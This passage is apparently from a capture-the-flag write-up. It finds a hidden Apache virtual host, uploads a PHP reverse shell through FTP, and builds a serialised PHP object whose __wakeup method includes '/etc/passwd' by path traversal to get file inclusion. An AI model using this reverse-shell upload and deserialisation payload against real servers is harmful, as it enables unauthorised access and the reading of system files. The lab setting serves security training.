 ```
-rw-r--r--    1 0        0             323 May 11  2021 001.conf
-rw-r--r--    1 0        0             360 May 11  2021 002.conf
```

`002.conf` contained a hidden subdomain:

```
$ cat 002.conf 
<VirtualHost *:80>
AssignUserId shanah shanah
ServerAdmin webmaster@localhost
DocumentRoot /var/www/dev
ServerName und3r_dev.deployer.off
ServerAlias und3r_dev.deployer.off
<Directory "/var/www/dev">
  Options FollowSymLinks
    AllowOverride All
</Directory>
ErrorLog ${APACHE_LOG_DIR}/error.log
CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

The DocumentRoot is where the vulnerable PHP files are located, so this hidden domain is the exploitable one.

The intended path seems to be using deserialisation for LFI and maybe to execute PHP files. We are unable to write to the almost all the directories accessible through FTP except for the `ftp` one:

```
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||26863|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> put phpreverseshell.php
local: phpreverseshell.php remote: phpreverseshell.php
229 Entering Extended Passive Mode (|||23987|)
150 Ok to send data.
100% |************************************************|  5494       95.26 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (15.38 KiB/s)
```

### Deserialisation -> LFI + RCE

To exploit the LFI, I used some PHP code to generate the serialised objects needed:

```php
<?php
    class Page
    {
        public $file ='../../../../../../../etc/passwd';

        public function __wakeup()
        {
            include ($this -> file);
            echo wakeup;
        }
    }
    $a=new Page();
    echo serialize($a);
?>

$ php test.php               
O:4:"Page":1:{s:4:"file";s:31:"../../../../../../../etc/passwd";}
```